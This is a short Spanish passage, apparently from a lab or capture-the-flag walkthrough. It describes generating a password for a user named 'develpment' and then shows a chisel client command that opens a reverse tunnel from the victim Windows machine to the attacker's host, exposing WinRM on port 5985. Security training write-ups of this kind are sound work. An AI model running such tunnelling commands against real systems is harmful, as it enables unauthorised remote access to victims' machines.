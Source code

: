 Al introducir los tres datos nos generar una contraseña la cual probaremos para el usuario develpment

![paste](./images/42.jpeg)


Para probar las dos contraseñas tendremos que hacer otro túnel con chisel para exponer el windows remote management que es el puerto 5985 desde la maquina Windows o victima como le quieras llamar 

```cmd
chisel.exe client 10.10.16.4:1234 R:5985:127.0.0.1:5985 
```

![paste](./images/43.jpeg)
